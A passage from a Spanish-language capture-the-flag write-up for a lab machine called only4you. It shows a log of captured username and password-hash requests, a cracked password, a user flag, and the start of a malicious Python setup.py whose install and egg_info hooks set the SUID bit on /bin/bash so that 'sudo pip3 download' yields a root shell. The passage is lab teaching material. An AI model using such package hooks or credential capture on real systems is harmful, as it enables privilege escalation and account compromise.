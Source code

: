 ```sql
10.10.11.210 - - [16/Jul/2023 11:18:23] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:24] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:24] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:25] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:26] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:26] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [16/Jul/2023 11:18:27] "GET /?username=john HTTP/1.1" 200 -
```

Ahora tenemos contraseñas hasheadas, podemos tratar de romper la de **john** con [[hashcat 1]] o mediante alguna página como [hashes.com](https://hashes.com/en/decrypt/hash). Si lo hacemos vemos que la contraseña es:

```hash
a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6:ThisIs4You
```

Y ya podemos acceder por [[22-ssh]]. Y podemos leer la **flag de ususario** (`1459c8da1c8e0d603ade5a0a53e3ed5c`).

## Escalada de privilegios(root)

Si enumeramos los archivos que podemos ejecutar como **sudo**:

```bash
sudo -l
```
```sudo -l
User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Vemos que podemos descargar un archivo con extensión *tar.gz*, que se encuentre en el servicio **gogs** que vimos antes, mediante **pip download**. Si buscamos por internet encontraremos que mediante dicho comando podemos llegar a ejecutar un comando (enlace al [artículo](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)). Lo primero es crear el script que se ejecutará, que cambiará los permisos de la [[Bash]]:

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("chmod u+s /bin/bash")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
```